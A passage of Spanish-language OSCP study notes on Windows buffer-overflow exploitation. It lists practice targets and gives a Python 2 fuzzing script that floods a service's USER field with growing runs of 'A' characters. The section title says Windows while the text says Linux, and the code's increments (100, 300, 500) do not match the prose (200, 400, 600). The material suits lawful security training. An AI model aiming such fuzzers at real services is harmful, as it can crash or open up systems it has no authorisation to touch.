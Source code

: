 # Apuntes de Preparación para el OSCP

![OSCP Image](http://funkyimg.com/i/2MPB4.png)
#### Penetration Testing with Kali Linux (PWK) course and Offensive Security Certified Professional (OSCP) Cheat Sheet

## Índice y Estructura Principal
- [Buffer Overflow Windows](#Buffer-Overflow-Windows)

Buffer Overflow Windows
===============================================================================================================================
A continuación, se listan los pasos a seguir para la correcta explotación de Buffer Overflow en Linux (32 bits). Para la examinación, no se requieren de conocimientos avanzados de exploiting en BoF (bypassing ASLR, etc.), basta con practicar con servicios básicos y llevar esa misma metodología al examen.

Servicios/Máquinas con los que practicar:

-   SLMail 5.5 
-   Minishare 1.4.1
-   Máquina Brainpan de VulnHub
-   Los 2 binarios personalizados compartidos en la máquina Windows personal del laboratorio

Generalmente, la metodología a seguir es la siguiente:

-   Fuzzing

Para esta fase, es necesario en primer lugar identificar el campo en el que se produce el buffer overflow. Para un caso práctico, suponiendo por ejemplo que un servicio sobre un Host 192.168.1.45 corre bajo el puerto 4000 y que tras la conexión vía TELNET desde nuestra máquina, se nos solicita un campo USER a introducir, podemos elaborar el siguiente script en python con el objetivo de determinar si se produce un desbordamiento de búffer:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = ["A"]
ipAddress = sys.argv[1]

port = 4000
contador = 100

while len(buffer) < 30:
  buffer.append("A"*contador)
  contador += 200
  
for strings in buffer:
  try:
    print "Enviando %s bytes..." % len(strings)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    s.send("USER " + strings + '\r\n')
    s.recv(1024)
    s.close()
  except:
    print "\nError de conexión...\n"
    sys.exit(0)

```
De esta forma, a través de una lista, vamos almacenando en la variable **buffer** el caracter "A" un total 30 veces con un incremento para cada una de las iteraciones en 200. 

Esto es:

[1 caracter "A", 200 caracteres "A", 400 caracteres "A", 600 caracteres "A", ...]
